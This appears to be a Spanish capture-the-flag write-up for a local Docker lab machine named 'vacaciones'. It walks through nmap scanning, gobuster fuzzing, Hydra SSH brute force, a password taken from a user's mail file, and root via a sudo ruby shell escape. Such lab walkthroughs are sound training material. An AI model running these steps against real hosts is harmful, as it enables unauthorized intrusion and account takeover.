 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh vacaciones.tar
```

![Pasted image 20250129185403](https://github.com/user-attachments/assets/8b9bca24-1701-4956-91bd-297db9054bc6)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129185423](https://github.com/user-attachments/assets/849e4049-3b9a-4f82-88d7-38ea2af76aed)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129185545](https://github.com/user-attachments/assets/48766e6e-d8a2-4afd-96b9-c3a629c1f8e8)

Nos metemos en los directorios:

![Pasted image 20250129185715](https://github.com/user-attachments/assets/c8fa990f-ef5a-4cb1-b9e8-5ad8efad6b11)

```Bash
cntrl + u
```

![Pasted image 20250129185818](https://github.com/user-attachments/assets/544fc2c4-3c48-4a87-a7e3-151fce991f49)

Nos da un usuario (Camilo)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250129190053](https://github.com/user-attachments/assets/9f0b1cc8-9d80-4ac4-ab36-ff021557ee95)

Nos conectamos con SSH:

```Bash
ssh camilo@172.17.0.2
```

![Pasted image 20250129190547](https://github.com/user-attachments/assets/71f52863-5ef2-4f69-bd49-47e2e5d142f2)

```Bash
/bin/bash -i
```

![Pasted image 20250129190824](https://github.com/user-attachments/assets/59e558c3-caf4-4ebf-b604-6fb64cb66d67)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129190912](https://github.com/user-attachments/assets/9f58b198-9aee-4ddb-981f-80635b5834e4)

```Bash
find / -perm /4000 2>/dev/null
```

![Pasted image 20250129191753](https://github.com/user-attachments/assets/7db941a9-5ee5-44e8-b2ee-54532d0f92ed)

No podemos.

Nos vamos a la dirección donde se guardan los mail:

```Bash
cd /var/mail/camilo
```

![Pasted image 20250129192332](https://github.com/user-attachments/assets/fd1c209e-88cf-4d3c-894c-8dc4e58e9536)

(A veces se guardan aquí también)

```Bash
cd /var/spool/mail/camilo
```

```Bash
ls
```

![Pasted image 20250129192510](https://github.com/user-attachments/assets/7e579e22-d172-448f-8334-28e5e242616d)

```Bash
cat correo.txt
```

![Pasted image 20250129192543](https://github.com/user-attachments/assets/53e2a526-789a-44d6-8b17-f9910191f62a)

juan: 2k84dicb

Nos conectamos con SSH:

```Bash
ssh juan@172.17.0.2
```

![Pasted image 20250129192647](https://github.com/user-attachments/assets/6ce006c2-b9f7-44ca-a53b-5922ba04be3a)

```Bash
/bin/bash -i
```

![Pasted image 20250129192815](https://github.com/user-attachments/assets/de97ab71-2249-4ddd-a161-5449702f5d35)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129192913](https://github.com/user-attachments/assets/5f66a973-8cf6-4378-86c2-763c7d27befb)

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![Pasted image 20250129193159](https://github.com/user-attachments/assets/76ae791c-0574-4b02-b2b7-ce8e9ce9ff99)

```Bash
whoami
```

![Pasted image 20250129193213](https://github.com/user-attachments/assets/32dcc17b-d657-48cc-a70a-f2672a847a90)
